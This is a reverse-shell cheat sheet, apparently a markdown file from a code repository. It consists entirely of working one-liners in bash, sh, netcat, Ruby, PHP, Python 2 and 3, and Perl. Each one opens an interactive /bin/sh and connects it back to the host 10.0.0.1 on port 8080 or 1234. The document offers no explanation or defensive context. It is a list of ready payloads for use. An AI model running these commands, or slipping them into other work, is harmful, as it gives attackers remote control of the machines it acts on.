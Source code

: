 # BASH
```
/usr/bin/bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```
// Using SH
```
/usr/bin/sh -i >& /dev/tcp/10.0.0.1/8080 0>&1
```

# NETCAT
```
/usr/bin/nc -e /bin/sh 10.0.0.1 1234
```
```
// If wrong installed NC
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
```

# RUBY
```
/usr/bin/ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```


# USING /bin/

# PHP
```
/bin/php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```

# PYTHON
// Python3 Usage:
```
/bin/python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

// Python2 Usage:
```
/bin/python2 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
# PERL
```
/bin/perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```
